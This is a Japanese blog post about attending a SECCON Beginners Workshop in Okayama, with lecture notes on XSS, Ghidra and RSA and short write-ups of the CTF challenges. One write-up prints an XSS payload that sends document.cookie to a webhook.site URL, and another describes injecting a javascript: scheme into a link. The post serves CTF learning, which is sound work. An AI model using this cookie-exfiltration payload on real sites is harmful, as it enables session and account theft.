





<!-- titleは自動で入る -->
2024/10/25 に[岡山で開催されたSECCON Beginners Workshop](https://www.seccon.jp/13/seccon_beginners/okayama.html)に参加してきました。13:00 - 16:00までWeb, Reversing, Cryptoの3ジャンルの講義があり、その後30分のCTF演習が行われるという形式でした。

# 講義

WebはXSSについて、ReversingはGhidraを活用したcrackmeについて、CryptoはRSAの仕組み解説が行われました。

## Web: XSS超入門

アイスブレイクが良かったですね。知らない人同士で話すの難しいはずなんですが、会場は結構盛り上がってました。岡山のIT勉強会コミュニティとか岡山大の学生の繋がりとか、所々知り合いっぽい雰囲気の人もいたので全体的に和やかな雰囲気でした。僕も前の席の方とおしゃべりしました。

内容はWebアプリの仕組みから説明されていてかなり丁寧でした。仕組みを知ってない状態ではちょっと捻った問題がすぐ解けなくなっちゃうので、こういう基礎的な仕組みを重視しているのは良さそうに感じました。

あとデモ環境が用意されていて、XSSを試す→ハンズオン→蓄積型XSS→ハンズオンというように講義→手を動かすの形式になっていたのも頭に入りやすくていいなと感じました。

CTF楽しい！！Web最高！！XSS！！！(講義資料より)

登場した知識

- XSSは対象のWebアプリ上でユーザーが行える操作を全て実行可能
- DOM-Based XSSのソースとシンク: ソースはJavaScriptコードを含める入力箇所、シンクはそのJavaScriptコードが実行される箇所
- 対策: HTMLを構成可能な特殊文字を適切に置き換える、URLの入力ではhttp, https以外のスキームを許可しない
- [webhook.site](https://webhook.site/): クローラに踏ませてcookieを窃取する問題とかで使える
- 検証が許可されていないWebサイトにXSSを試したりするのは犯罪なのでダメです(法律も合わせて勉強しよう！)

## Reversing: Reversing入門

Ghidra, 適当にポチポチしたくらいの知識しかなかったので、実際講師の方が動かしてくれている様子を見るのは勉強になりました。特に変数名の変更は機能としてあるのは知っていたけどやったことなくて、やってみると予想以上に `Param1` とかよりも読みやすく感じました。意外とこういうのって大事なんだなあ。

Reversingは対象が何をするのかを解析する問題ジャンル、という観点から広い視点でのReversingと、crackmeなど問題の型のような説明があって良かったですね。概観はあまり考えたことなかったので確かになあと思いながら聴いていました。ジャンル(ゲームチート、crackme、...)を決めて集中的に問題を探して取り組むのも良さそうな気がする。

さらに基本的な解き方についても抽象的な観点が提供されていて良かったです。こういうのって言われたらわかるけど言われるまではわからなくて自分が何からやればいいかわからなくなりがちなので、抽象的に「1 実行する環境を用意 2 動作を解析 3 flagを手にいれる方法を考える 4 解く」みたいな一連の流れを説明してもらうと、例えば自分はツールの使い方がわからんから3が弱いのかな、みたいなことを考えられて良さそうに思いました。僕は割と1,2まで行けて3で詰まることが多いな〜と思いました。

あと実践バイナリ解析という本でバイナリ解析の自動化が解説されているらしく、気になります。

登場した知識

- バイナリとプログラムの関係
- 表層解析、静的解析、動的解析(今回は動的解析はなし)
- Ghidraを使ったdecompile
- Ghidraの機能: decompile結果を読みやすくする
- [CyberChef](https://gchq.github.io/CyberChef/): バイト列を一文字ずつXORする処理のような、convert系で使える

## Crypto

数学(算数？)の講義という感じでした。RSAって名前は有名な割にちゃんと説明しようとすると結構いろんな知識が必要になるな〜と改めて感じました。

RSAの問題がCryptoでメジャーなことに驚きました。割とシンプルなので式変形コネコネはアイデアが枯渇しそうだけど、最近はどんな問題が出ているのか気になりました。

登場した知識

- RSAの仕組み
- RSAの完全性の証明
- PyCryptoモジュールの使い方
- おすすめVTuber: [kurenaif](https://www.youtube.com/c/kurenaif) 特に初心者と一緒に学ぶRSA入門が良い
- 素因数分解ツール: [Integer factorization calculator](https://www.alpertron.com.ar/ECM.HTM)

# CTF演習

## visitor web 100

webhook.siteを使ってみよう問題でした。webhook.siteのリンクを作って送ると、クローラが踏んでくれてflagが手に入る。

## link-xss web 100

`alert("ctf4b")` を実行するとflagが手に入る。hrefに注入されるので、`javascript:` スキームを使うと良い

## profu-xss web 200

XSSを使ってcookieの中身を読んでねという問題
`<script>location.href="webhook.siteのURL?" + document.cookie</script>` でクローラに踏ませてcookieを窃取すると中にflagがある

## calculation crypto 100

pythonのpowで計算する。以下使ったコード

```python
n1 = (pow(7, 10, 11) + 130 + 44*55) % 11
n2 = pow(4, -1 , 11)
n3 = GCD(150, 135)
n4 = phi(65)
print(n1,n2,n3,n4)
```

## poweRSA crypto 100

暗号化するコードの穴埋めをする。

```python
# 以下の条件でRSA暗号の暗号化をしてください
# 提出するフラグは暗号文cで例えば暗号文cが123になった場合ctf4b{123}という形式で提出してください

p = 31
q = 47
e = 7 # 公開鍵
m = 1026 # 平文

# 鍵生成 n = p*q
# 暗号化 c = m^e mod n
n = p * q
c = pow(m, e, n)
print(c)
```

## decipheRSA crypto 100

p,qが与えられている状態で復号する。

```python
from Crypto.Util.number import *

p = 843668008756691251672775432089
q = 792206801190008608407527306467
n = p*q
e = 65537
m = bytes_to_long(b"ctf4b{****************}")

c = pow(m, e, n)

print("p =", p)
print("q =", q)
print("n =", n)
print("e =", e)
print("c =", c)
# p = 843668008756691251672775432089
# q = 792206801190008608407527306467
# n = 668359534483482548134183790423732923994178402025402249019563
# e = 65537
c = 563744079565384085148288925415990420916231364036334923119893

m_ = pow(c, inverse(e, (p-1)*(q-1)), n)
print(long_to_bytes(m_))
```

## prime_plum crypto 200

p,qのサイズが小さいので、[Integer factorization calculator](https://www.alpertron.com.ar/ECM.HTM) に `n` を入力するとtotientが表示される。

```python
from Crypto.Util.number import *

flag = bytes_to_long(b"ctf4b{********************}")

p, q = getPrime(110), getPrime(110)
n = p*q
e = 65537

c = pow(flag, e, n)

print("n =", n)
print("e =", e)
print("c =", c)

# 出力結果
n = 927043829977903407232445767033287481771875884361424261104181645453
# e = 65537
c = 890792460830403963855867566091293765910952419998997374157592453790

p = 898904502229225946199635033257
q = 1048812058998954634610974602633029

# print(n == p*q)

d = inverse(e, (p-1)*(q-1))
m = pow(c, d, n)
# print(long_to_bytes(m))

phi = 927043829977903407232445767033285549060912383177563703929943979168 # https://www.alpertron.com.ar/ECM.HTM を使った

m = pow(c, inverse(e, phi), n)
print(long_to_bytes(m))
```

## permutation_leak crypto 300

`r = (p-1) * (p-1)` が与えられる。最初は `math.sqrt` で `p-1` を直接求めようとしてたけど、途中で `r = p*p - 2p + 1` ということに気づいて、`GCD(r-1, n) = p` を使って `p` を求めた。

```python
from Crypto.Util.number import *
# from flag import flag

p, q = getPrime(512), getPrime(512)
n = p * q
e = 65537

r = (p - 1)*(p - 1)

# flag = bytes_to_long(flag.encode())
# cipher = pow(flag, e, n)
print("n =", n)
print("e =", e)
# print("cipher =", cipher)
print("r =", r)

n = 94820461306003040380466920343051187500147312017770641783692817075076948766546422041142834945902998112903306296059411756899744037159311693234597123644852396903977096637931274695137751725134947451910912212740757106141328600738717757094061840615266039967500004166874819922889134920205943122766433630569802042213
e = 65537
cipher = 12876341524429222890422986677203648704650716148321011968426861295575150304995576521270555632039181213717752669857118599156600761061646150851107881199565969779102533537782119660219342122007565835266511737777214712906333285755235147228902261553851330496197135362337143486953442352086727237498555446054006898255
r = 96171014636822442395058812710844243260943167014909227458193614806389364971522184443021679771244148465118455061902879572546911969639177954967367005155637979556229441659770859658908184624592048293648055289626784241868398029965906428346382196960466958601123978267813831187161249212177836066061010822226617476004
p = GCD(n, r - 1)
q = n // p
phi = (p - 1) * (q - 1)
d = inverse(e, phi)
m = pow(cipher, d, n)
print(long_to_bytes(m))
```

## Execute me reversing 100

実行したらフラグが手に入る

# 解けなかった問題

## blog-xss web 300

`` が刺さるのを確認して `` を書いたけどなんか刺さらず、あれ〜とあれこれしていたが、たまたま刺さらなかったっぽい。

## Static analysis 1 reversing 200

最後に取り組んでいた。 `strings ex02 | grep ctf` を打ったらflagが出たのだけど、コピペがギリ時間に間に合わず...

## Static analysis 2 reversing 300

開けてない

# 感想

- 中国地方でCTFイベントがあるのはとっても嬉しいです。広島から岡山行くくらいなら全然行きますって感じでした。
- オンサイトCTF楽しいですね。内容よりもスピードCTFをオンサイトでやる時の生きている感覚みたいなものが好きなのかもしれないです。
- 岡山大の方とお話しできて良かったです。岡山はCTFがとても強い方がいたのでその影響でCTFがちょっと盛り上がっているらしい。
- 会場にPQCやっている人がいたっぽくて、うわ〜暗号ガチ勢にご挨拶したかったという気持ちです。

岡山楽しかったです。CTFモチベ上がったので暗号の本挫折したやつ読み直そうかな...

以下写真



広島大学に負けず劣らずの空の広さ。
田舎の大学は敷地が広くて空が広くていいですね。



会場




スコア推移はこんな感じ。





上位5名にもらえる kurenaif さんのクリアファイル嬉しい〜
